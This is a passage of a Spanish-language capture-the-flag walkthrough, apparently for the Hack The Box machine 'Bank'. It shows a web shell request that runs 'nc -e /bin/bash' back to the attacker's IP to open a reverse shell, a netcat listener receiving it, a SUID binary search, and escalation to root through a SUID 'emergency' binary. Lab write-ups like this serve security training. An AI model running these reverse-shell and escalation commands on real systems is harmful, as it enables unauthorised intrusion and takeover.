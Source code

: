 Ahora vamos a ponernos en escucha por el puerto 443 y vamos a entablarnos una reverse shell.

```bash
http://bank.htb/uploads/k4mishell.htb?cmd=nohup nc -e /bin/bash 10.10.14.27 443 &
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.29] 42698
whoami
www-data
```

Para trabajar más comodos vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty) y vemos que podemos visualizar la flag (user.txt); por lo tanto vamos a enumerar un poco el sistema para ver de que forma nos podemos convertir en **root**.

```bash
www-data@bank:/home/chris$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bank:/home/chris$ sudo -l
[sudo] password for www-data: 
www-data@bank:/home/chris$ cd /
www-data@bank:/$ find \-perm -4000 2>/dev/null
./var/htb/bin/emergency
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/at
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/pkexec
./usr/bin/newgrp
./usr/bin/traceroute6.iputils
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/mtr
./usr/sbin/uuidd
./usr/sbin/pppd
./bin/ping
./bin/ping6
./bin/su
./bin/fusermount
./bin/mount
./bin/umount
www-data@bank:/$
```

Nos encontramos con el binario `/var/htb/bin/emergency` el cual tiene permisos SUID, por lo tanto vamos a probar a ejecutarlo a ver que pasa.

```bash
www-data@bank:/$ /var/htb/bin/emergency
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt). Si le aplicamos un `strings` al binario, vemos que podría hacer multiples cosas y una cadena imprimible en donde se observa `/bin/sh`, que es lo que nos despliega al ejecutarlo.
